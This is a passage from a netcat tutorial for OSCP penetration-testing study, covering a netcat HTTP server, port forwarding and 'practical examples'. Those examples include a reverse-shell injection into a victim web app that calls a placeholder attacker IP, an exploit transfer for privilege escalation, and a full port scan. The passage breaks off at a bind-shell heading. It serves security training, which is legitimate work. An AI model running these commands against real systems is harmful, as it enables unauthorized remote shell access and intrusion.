 **Simple HTTP Server:**

Create a simple HTML file (`index.html`):

```html
<!DOCTYPE html>
<html>
<body>
<h1>Hello, OSCP!</h1>
</body>
</html>
```

Serve the file with `netcat`:

```sh
while true; do { echo -e 'HTTP/1.1 200 OK\r\n'; cat index.html; } | nc -lvnp 8080; done
```

#### 7. Port Forwarding

You can forward traffic from one port to another using `netcat`.

```sh
mkfifo /tmp/f; nc -lvnp 8080 < /tmp/f | nc <target_ip> 80 > /tmp/f
```

#### Practical Examples in OSCP

**Example 1: Reverse Shell via a Vulnerable Web Application**

Assume you have identified a vulnerable web application that allows you to execute commands. You could use the following command to get a reverse shell:

```sh
curl http://victim.com/vulnerable?cmd=nc -e /bin/bash <attacker_ip> 4444
```

**Example 2: Privilege Escalation via File Transfer**

You have gained limited access to a target machine and found a privilege escalation exploit that you need to upload. On your machine:

```sh
nc -lvnp 4444 < exploit.c
```

On the target machine:

```sh
nc <attacker_ip> 4444 > exploit.c
```

**Example 3: Scanning for Open Ports During Reconnaissance**

Use `netcat` to quickly check for open ports on a target machine:

```sh
nc -zv 192.168.1.5 1-65535
```

**Example 4: Bind Shell for Post-Exploitation**
